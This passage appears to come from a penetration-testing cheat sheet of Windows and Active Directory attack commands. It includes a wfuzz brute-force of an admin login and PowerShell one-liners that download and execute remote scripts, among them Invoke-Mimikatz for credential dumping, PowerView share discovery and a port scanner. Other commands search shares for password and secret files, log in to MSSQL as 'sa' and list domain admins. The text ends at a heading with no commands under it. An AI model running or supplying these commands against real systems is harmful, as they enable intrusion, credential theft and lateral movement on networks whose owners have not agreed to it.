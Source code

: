 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
 <b> Invoke Mimikatz </b>
  
  <pre>IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz</pre>
  
  
   <b> Runas Powershell </b>
  
  ```Start-Process powershell.exe -Verb runas```
  ```Start-Process powershell.exe -Credential <user>```
  
  <b> View Shares With Permissions </b>
  
  <pre>powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455620-34f292b4-ed83-11e7-92b0-3b8dd387146f.png)
  
  
  <b> View files that contain certain words recursively </b>
  
  <pre> ls -Path \\SVHOST1.LAZULI.CORP\tmp$ -Include "*pass*","*
admin*","*secret*" -Recurse </pre>

![image](https://user-images.githubusercontent.com/7115563/34455641-aa03adf4-ed83-11e7-8333-a69366714921.png)

<b> View files which name contains certain words recursively </b>

<pre>dir -Path \\SVHOST1.LAZULI.CORP -Include "*pass*","*admin*","*secret*" -Recurse</pre>

![image](https://user-images.githubusercontent.com/7115563/34455649-dcc941ea-ed83-11e7-9428-a702f254e807.png)

<b> Connect to MSSQL Database </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/michaellwest/PowerShell-Modules/master/CorpApps/Invoke-SqlCommand.ps1')

Invoke-SqlCommand -Server 172.11.14.89 -Database master -Username sa -Password <password> -Query "exec sp_databases" </pre>

<b> Port Scanning </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1')

Invoke-Portscan -Hosts [ip] -TopPorts 50</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455679-6e630230-ed84-11e7-995e-2eea1a6fc8dc.png)
  
  
  <b> View Domain Admins </b>
  
  <pre> net groups /domain "Domain Admins"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455690-9e648d78-ed84-11e7-9a84-9b335530a31e.png)
  
  <b> View Domain Controlers </b>
```